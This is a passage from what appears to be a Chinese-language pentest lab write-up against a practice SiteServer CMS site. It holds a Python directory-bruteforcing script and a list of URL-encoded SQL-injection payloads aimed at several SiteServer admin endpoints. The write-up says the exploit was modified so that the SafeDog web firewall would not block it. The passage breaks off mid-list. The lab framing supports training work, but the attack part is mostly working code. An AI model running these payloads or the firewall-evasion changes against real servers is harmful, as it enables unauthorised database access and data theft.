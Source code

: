 ```
#conding:utf-8
import requests
import time
import sys

#加载字典文件
with open('big.txt','r',encoding='UTF-8') as readfile:
for dirs in readfile.readlines():

#生成对应url
url ="http://www.moonlab.com/"+dirs.strip('\n')
resp = requests.get(url)
strlen=len(resp.text)

#将扫描结果输出
print(url+'---'+str(resp.status_code)+'---len---'+str(strlen))

#沉睡0.5S
time.sleep(0.5)

#判断特殊状态码，将对应url保存到文件之中
if resp.status_code ==200 or resp.status_code==403 or resp.status_code==301 or resp.status_code==500:
with open('write.txt','a',encoding='UTF-8') as writefile:
writefile.write(url+'---'+str(resp.status_code)+'---len---'+str(strlen)+'\n')
```

#### 2.4 访问特殊状态码地址
1. `一遍让脚本跑这，一遍看看特殊状态码的url，命令“ cat write.txt | grep 500 ”`
<br/> 使用火狐打开，[http://www.moonlab.com/siteserver](http://www.moonlab.com/siteserver)

## 三、靶场地址
1. `链接: https://pan.baidu.com/s/1b-MQ7Y3_t7foMwXFjDzJKg 提取码: bxs2`
## 四、对目标进行渗透测试

#### 4.1 测试Web服务器

###### 4.1.1 查找siteserver对应漏洞
1. `上边通过目录扫描，发现目标网站使用siteserver。去网上找找有没有现场的poc.`1. `在这里找到https://github.com/w-digital-scanner/w9scan/tree/master/plugins/siteserver。`
**将利用源代码复制下来，进行魔改，直接利用的话会被网站安全狗拦截。**

```
import requests

#定义payload到列表之中
ps=[
'siteserver/service/background_taskLog.aspx?Keyword=test%%27%20and%20convert(int,(char(71)%2Bchar(65)%2Bchar(79)%2Bchar(74)%2Bchar(73)%2B@@version))=1%20and%202=%271&amp;DateFrom=&amp;DateTo=&amp;IsSuccess=All',
'usercenter/platform/user.aspx?UnLock=sdfe%27&amp;UserNameCollection=test%27)%20and%20char(71)%2Bchar(65)%2Bchar(79)%2Bchar(74)%2Bchar(73)%2B@@version=2;%20--',
'siteserver/bbs/background_keywordsFilting.aspx?grade=0&amp;categoryid=0&amp;keyword=test%27%20and%20char(71)%2Bchar(65)%2Bchar(79)%2Bchar(74)%2Bchar(73)%2B@@version=1%20and%202=%271',
'siteserver/userRole/background_administrator.aspx?RoleName=%27%20and%20char(71)%2Bchar(65)%2Bchar(79)%2Bchar(74)%2Bchar(73)%2B@@version=1%20and%201=%271&amp;PageNum=0&amp;Keyword=test&amp;AreaID=0&amp;LastActivityDate=0&amp;Order=UserName',
'siteserver/userRole/background_user.aspx?PageNum=0&amp;Keyword=%27%20and%20char(71)%2Bchar(65)%2Bchar(79)%2Bchar(74)%2Bchar(73)%2B@@version=1%20and%201=%27&amp;CreateDate=0&amp;LastActivityDate=0&amp;TypeID=0&amp;DepartmentID=0&amp;AreaID=0',
'siteserver/bbs/background_thread.aspx?UserName=test&amp;Title=%27%20and%201=char(71)%2Bchar(65)%2Bchar(79)%2Bchar(74)%2Bchar(73)%2B@@version%20and%201=%27&amp;DateFrom=&amp;DateTo=&amp;ForumID=0',
```